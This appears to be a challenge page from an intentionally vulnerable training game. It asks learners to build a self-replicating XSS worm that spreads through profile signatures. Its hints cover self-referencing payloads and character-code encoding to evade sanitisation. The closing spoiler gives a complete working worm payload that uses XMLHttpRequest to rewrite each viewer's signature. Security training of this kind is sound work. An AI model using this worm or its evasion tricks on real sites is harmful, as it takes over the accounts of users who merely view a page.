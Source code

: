 # XSS/CSRF Challenge 5

----------------------

Hey friend,

I've got a challenge for you.

Using the same concept from challenge 3, craft an XSS exploit in the profile signature that behaves like a worm, updating the profile signature of anyone who views an infected profile to also have the same exploit code on their profile.

To do this, you'll need to escape out of the bbcode parser and get javascript execution, use javascript to get a copy of the exploit code, and craft some javascript (perhaps using ajax) to submit a request to the server to update the user's profile signature.

I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can get the exploit on the admin's profile signature via this worm!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   You don't have jquery on the page, so you'll need to google how to do an ajax call with plain, vanilla javascript. You also need to gather the details about the call you need to do (get it from the Preferences / Profile Signature form page).
</details>

<details> 
  <summary>Click for hint 2</summary>
   To get a copy of the worm for the payload, have the code refer to itself! E.g. &lt;img src='' id='bob' onLoad='document.getElementById("bob").getAttribute("onLoad")'&gt;
</details>

<details> 
  <summary>Click for hint 3</summary>
   You may find you need to use some characters in your payload that are difficult to escape properly (or just might be sanitized). To get around this, look at the javascript function String.fromCharCode.
</details>

<details> 
  <summary>Click for hint 4</summary>
   While constructing your payload, you may find this function useful:
   
   ```
String.prototype.toCharCode = function(){
    var str = this.split(''), len = str.length, work = new Array(len);
    for (var i = 0; i < len; ++i){
        work[i] = str[i].charCodeAt();
    }
    return work.join(',');
}
   ```
</details>

<details> 
  <summary>Click for hint 5</summary>
   If you run into trouble concatenating javascript strings with the plus symbol (+), try using the concat function instead!
   ```str1.concat(str2);```
</details>

<details> 
  <summary>Major Spoiler - one possible solution</summary>
   ```[img]http://www.nyan.cat/cats/original.gif" id='uniqueimgid' onLoad="var xmlhttp;if (window.XMLHttpRequest) xmlhttp=new XMLHttpRequest();else xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');xmlhttp.open('POST', 'preferences.php?action=profilesig2', true);xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xmlhttp.send('newprofilesig='.concat(String.fromCharCode(91,105,109,103,93,104,116,116,112,58,47,47,119,119,119,46,110,121,97,110,46,99,97,116,47,99,97,116,115,47,111,114,105,103,105,110,97,108,46,103,105,102,34,32,105,100,61,39,117,110,105,113,117,101,105,109,103,105,100,39,32,111,110,76,111,97,100,61,34)).concat(document.getElementById('uniqueimgid').getAttribute('onLoad')).concat(String.fromCharCode(91, 47, 105, 109, 103, 93)));[/img]```
</details>